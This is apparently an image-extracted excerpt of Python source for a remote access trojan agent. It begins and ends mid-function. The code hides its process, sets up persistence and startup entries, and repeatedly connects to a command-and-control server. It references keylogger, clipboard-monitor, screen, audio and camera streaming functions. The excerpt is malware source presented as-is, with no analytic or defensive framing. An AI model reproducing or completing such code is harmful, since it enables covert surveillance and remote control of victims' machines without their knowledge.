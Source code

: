 ```python
                print(f"[WARN] Could not hide process: {e}")
            
            # Setup persistence (non-blocking)
            try:
                establish_persistence()
            except Exception as e:
                print(f"[WARN] Could not establish persistence: {e}")
        else:
            print("Running on non-Windows system")
        
        # Setup startup (non-blocking)
        try:
            add_to_startup()
        except Exception as e:
            print(f"[WARN] Could not add to startup: {e}")
        
        # Get or create agent ID
        agent_id = get_or_create_agent_id()
        print(f"[OK] Agent starting with ID: {agent_id}")
        
        print("Initializing connection to server...")
        
        # Main connection loop with improved error handling
        connection_attempts = 0
        while True:
            try:
                connection_attempts += 1
                print(f"Connecting to server (attempt {connection_attempts})...")
                sio.connect(SERVER_URL)
                print("[OK] Connected to server successfully!")
                sio.wait()
            except socketio.exceptions.ConnectionError:
                print(f"[WARN] Connection failed (attempt {connection_attempts}). Retrying in 10 seconds...")
                time.sleep(10)
            except KeyboardInterrupt:
                print("\n[INFO] Received interrupt signal. Shutting down gracefully...")
                break
            except Exception as e:
                print(f"[ERROR] An unexpected error occurred: {e}")
                # Cleanup resources
                try:
                    stop_streaming()
                    stop_audio_streaming()
                    stop_camera_streaming()
                    stop_keylogger()
                    stop_clipboard_monitor()
                    print("[OK] Cleaned up resources.")
                except Exception as cleanup_error:
                    print(f"[WARN] Error during cleanup: {cleanup_error}")
                
                print("Retrying in 10 seconds...")
                time.sleep(10)
    
    except KeyboardInterrupt:
        print("\n[INFO] Agent shutdown requested.")
    except Exception as e:
        print(f"[ERROR] Critical error during startup: {e}")
    finally:
        print("[INFO] Agent shutting down.")
        try:
            if sio.connected:
                sio.disconnect()
```